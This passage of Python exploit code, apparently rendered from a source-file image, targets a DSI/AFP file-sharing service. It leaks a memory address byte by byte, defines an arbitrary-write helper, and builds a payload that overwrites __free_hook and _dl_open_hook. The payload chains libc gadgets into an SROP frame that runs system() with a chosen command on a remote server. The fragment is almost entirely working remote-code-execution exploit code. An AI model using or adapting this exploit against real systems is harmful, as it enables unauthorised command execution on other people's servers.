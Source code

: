 ```python
            if reply is None:
                io.close()
                continue
            if flag_str in reply:
                io.close()
                print('Find! {}'.format(hex(i)))
                leak_addr += cur_byte
                break
    # print(leak_addr)
    mmap_addr = u64(leak_addr.ljust(8, b'\x00'))   # 0x7fxxxxxfff, add 1
    return mmap_addr+1


def aaw(io, payload):
    dsifunc_cmd = b'\x04'           # DSIFUNC_OPEN
    dsi_payload = b'\x00'
    dsi_payload += payload
    dsi_header = createDSIHeader(dsifunc_cmd, dsi_payload)
    msg = dsi_header + dsi_payload
    io.send(msg)


def do_exploit(leak_addr, offset, cmd):
    libc_base = leak_addr - offset
    print('libc_base: {}'.format(hex(libc_base)))
    free_hook = libc_base + libc_bin.sym['__free_hook']
    dl_open_hook = libc_base + libc_bin.sym['_dl_open_hook']
    system_addr = libc_base + libc_bin.sym['system']
    setcontext_53 = libc_base + 0x520A5
    '''
         # put the value of _dl_open_hook into rax, then call the [rax]. That means call **_dl_open_hook
         mov     rax, cs:_dl_open_hook
         call    qword ptr [rax]
    '''
    libc_dlopen_mode_56 = libc_base + 0x166488
    '''
         # control rdi to do SROP
         mov     rdi, rax
         call    qword ptr [rax+20h]
    '''
    fgetpos64_207 = libc_base + 0x7EA1F

    io = remote(IP, PORT)
    replaceCommandPtr(io, p64(free_hook - 0x10))        # 0x10: 1 byte func idx, 0xF bytes padding
    # print('commands ptr has been changed....')

    sigframe = SigreturnFrame()
    sigframe.rip = system_addr
    sigframe.rdi = free_hook + 8                   # cmd
    sigframe.rsp = free_hook                       # must be a writable address, as the stack of system func

    payload = b''.ljust(0xF, b'\x00')              # padding
    payload += p64(libc_dlopen_mode_56)            # __free_hook, after this rop, rax = *dl_open_hook = dl_open_hook + 8
    payload += cmd.ljust(0x2bb8, b'\x00')          # __free_hook + 8
    payload += p64(dl_open_hook + 8)               # dl_open_hook, *dl_open_hook = dl_open_hook+8, **dl_open_hook = fgetpos64+207
    payload += p64(fgetpos64_207)                # _dl_open_hook+8, let rdi = rax = _dl_open_hook + 8
    payload += b'A' * 0x18
```
